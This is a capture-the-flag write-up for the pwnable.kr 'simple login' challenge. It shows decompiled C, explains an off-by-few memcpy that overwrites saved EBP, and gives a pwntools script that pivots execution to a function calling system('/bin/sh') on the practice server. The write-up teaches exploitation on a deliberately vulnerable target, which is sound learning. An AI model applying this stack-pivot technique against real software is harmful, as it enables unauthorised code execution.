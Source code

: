 # simple login

## Description

simple login - 50 pt

> Can you get authentication from this server? <br><br>
> Download : http://pwnable.kr/bin/login <br><br>
> Running at : nc pwnable.kr 9003


## Solution

### Understanding the binary

As stated in the description, we are given a the binary file running on the server. Let's start by checking what kind of file it is:

```bash
$ file login
login: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=e09ec7145440153c4b3dedc3c7a8e328d9be6b55, not stripped
```

Nothing special here, it's a 32-bit ELF executable. Let's check the security features:

```bash
$ checksec --file=login
RELRO           STACK CANARY      NX            PIE
Partial RELRO   Canary found      NX enabled    No PIE
```

Since the NX bit is enabled, and there's a canary, but there is partial RELRO, this probably will have to do something with overwriting the PLT. Let's check the binary in IDA.

**main:**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-3Ch]
  int v5; // [esp+18h] [ebp-28h] BYREF
  _BYTE v6[30]; // [esp+1Eh] [ebp-22h] BYREF
  unsigned int v7; // [esp+3Ch] [ebp-4h]

  memset(v6, 0, sizeof(v6));
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ", v4);
  _isoc99_scanf("%30s", v6);
  memset(&input, 0, 12);
  v5 = 0;
  v7 = Base64Decode(v6, &v5);
  if ( v7 > 0xC )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, v5, v7);
    if ( auth(v7) == 1 )
      correct();
  }
  return 0;
}
```

**auth:**
```c
BOOL __cdecl auth(int a1)
{
  char v2[8]; // [esp+14h] [ebp-14h] BYREF
  const char *v3; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h] BYREF

  memcpy(&v4, &input, a1);
  v3 = (const char *)calc_md5(v2, 12);
  printf("hash : %s\n", v3);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", v3) == 0;
}
```

**correct:**
```c
void __noreturn correct()
{
  if ( input == -559038737 )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```

So, the program reads 30 bytes from the user and decodes them from base64, and initializes `input` to 0. Then, if the length of the decoded string is less or equal to 12 bytes, it copies it to `input` and calls the `auth` function. 

The `auth` function copies the `input` to a local variable, and then calls the `calc_md5` function on it. It then compares the result to the string `f87cd601aa7fedca99018a8be88eda34`. If the comparison is successful, it calls the `correct` function.

The `correct` function checks if `input` is equal to `-559038737`. If it is, it prints the flag and calls `system("/bin/sh")`.

### Exploit

Note that when `input` is copied a local variable using `memcpy`, the program copies 12 bytes into a 4 byte long variable. Debugging with gdb, it appears that the local variable is 8 bytes above the pushed ebp on the stack - which means that it'll overwritten with the last 4 bytes of `input`.

You surely ask "Okay, how does modifying the saved ebp help us?". Well, consider if the saved ebp points somewhere where the address of  `correct` is saved. When the program will return to main, and the `leave` instruction will be executed, then esp will too point to the address of `correct`. Thus, when the `ret` instruction will be executed, the program will jump to the `correct` function. 

It's important to note that after moving ebp to esp, `leave` also pops the saved ebp from the stack - causing esp to be incremented by 4, and so we technically need to make rbp point to the 4 bytes behind the address of `correct`.

We can achieve this by making `input` look like this:

```
| 0xdeadbeef | address of correct | ptr to last cell minus 4 |
                    ^                         |
                    |_________________________|
```

### Exploit code

```python
from pwn import *

'''
0x0804925f: correct
0x0811eb44: 5th byte of input
'''
payload = p32(0xdeadbeef) + p32(0x0804925f) + p32(0x0811eb44 - 4) 

conn = remote('pwnable.kr', 9003)
conn.sendline(base64.b64encode(payload)) # don't forget to encode the payload!
conn.interactive()
```

```
control EBP, control ESP, control EIP, control the world~
```

Wise words, indeed.